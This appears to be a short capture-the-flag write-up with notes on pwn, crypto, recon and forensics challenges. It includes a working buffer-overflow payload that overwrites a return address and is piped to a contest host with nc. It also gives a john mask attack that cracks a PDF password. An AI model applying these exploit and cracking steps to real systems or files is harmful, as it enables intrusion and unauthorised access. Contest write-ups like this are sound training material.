


# Finals

## pwn

### toomuch

Buffer overflow vulnerability in toomuch.c

```c
scanf("%s", buffer);
```

```bash
msf-pattern_create -l 64 > input
gdb toomuch
# break *main+202 (breaking at ret)
# r < input
# x/10xg $rsp (see address at top of stack)
```



```bash
msf-pattern_offset -l 46 -q msf-pattern_offset -l 64 -q 0x3562413462413362
# [*] Exact match at offset 40
objdump -d toomuch | grep "win"
#
python -c 'import sys; sys.stdout.buffer.write(b"A"*40 + b"\xd5\x11\x40" + b"\x00"*5)' | ./toomuch
cat <(python -c 'import sys; sys.stdout.buffer.write(b"A"*40 + b"\xd5\x11\x40" + b"\x00"*5)') - | nc host3.metaproblems.com 7080
```

## crypto

### 1040

```bash
# Use kali
pdf2john 1040.pdf > hash.txt
# crack 4 digit password
john hash.txt --mask='?d?d?d?d'
```

## recon

<https://www.win-rar.com/singlenewsview.html?&L=0&tx_ttnews%5Btt_news%5D=232&cHash=c5bf79590657e32554c6683296a8e8aa>

base score is `7.8,AV:L/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:H` from above link

use chatgpt to get manual calculation code

```txt title="chatgpt"
AV:L/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:H

how to use the cvss3.1 base score formula
I want to do the calculation manually in python
```

remove the roundup at the end

## forensics

### Eventful filesystem

Use [FSevents](https://github.com/dlcowen/FSEventsParser) parser and then grep
for flag


```
python2 FSEParser_V4.0.py -s System/Volumes/Data/.fseventsd -t folder -o output
grep -R "flag" output/FSE_Reports/
```


